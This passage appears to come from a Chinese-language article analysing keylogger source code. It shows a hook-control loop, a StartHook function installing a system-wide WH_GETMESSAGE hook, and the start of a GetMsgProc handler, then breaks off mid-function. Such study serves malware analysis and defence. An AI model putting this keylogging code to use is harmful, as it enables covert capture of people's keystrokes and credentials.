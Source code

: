 ```
        int j = 1;
        g_bSignalHook = j;
    }
    else
    {
        //		CloseHandle(CreateFile( strKeyboardOfflineRecord, GENERIC_WRITE, FILE_SHARE_WRITE, NULL,CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL));
        //		g_bSignalHook = true;
        int i = 0;
        g_bSignalHook = i;
    }
    //		g_bSignalHook = false;

    while (1)
    {
        while (g_bSignalHook == 0)
        {
            Sleep(100);
        }
        CKeyboardManager::StartHook();
        while (g_bSignalHook == 1)
        {
            CKeyboardManager::MyGetShortPathName(szModule, szModule, MAX_PATH);
            Sleep(100);
        }
        CKeyboardManager::StopHook();
    }

    return 0;
}
```

其核心的代码是安装一个类型为 **WH_GETMESSAGE** 的Windows Hook （钩子） 的 **CKeyboardManager::StartHook()**：

```
//KeyboardManager.cpp 313行
bool CKeyboardManager::StartHook()
{
    //...无关代码省略...
    m_pTShared->hGetMsgHook = SetWindowsHookEx(WH_GETMESSAGE, GetMsgProc, g_hInstance, 0);
    //...无关代码省略

    return true;
}
```

**WH_GETMESSAGE** 类型的钩子会截获钩子所在系统上的所有使用 **GetMessage** 或 **PeekMessage** API 从消息队列中取消息的程序的消息。拿到消息后，对消息的处理放在 **GetMsgProc** 函数中：

```
//KeyboardManager.cpp 167行
LRESULT CALLBACK CKeyboardManager::GetMsgProc(int nCode, WPARAM wParam, LPARAM lParam)
{
    TCHAR szModule[MAX_PATH];

    MSG*	pMsg;
    TCHAR	strChar[2];
    TCHAR	KeyName[20];
    CKeyboardManager::MyGetModuleFileName(NULL, szModule, MAX_PATH);
    LRESULT result = CallNextHookEx(m_pTShared->hGetMsgHook, nCode, wParam, lParam);
    CKeyboardManager::MyGetShortPathName(szModule, szModule, MAX_PATH);

    pMsg = (MSG*)(lParam);
    // 防止消息重复产生记录重复，以pMsg->time判断
    if (
```
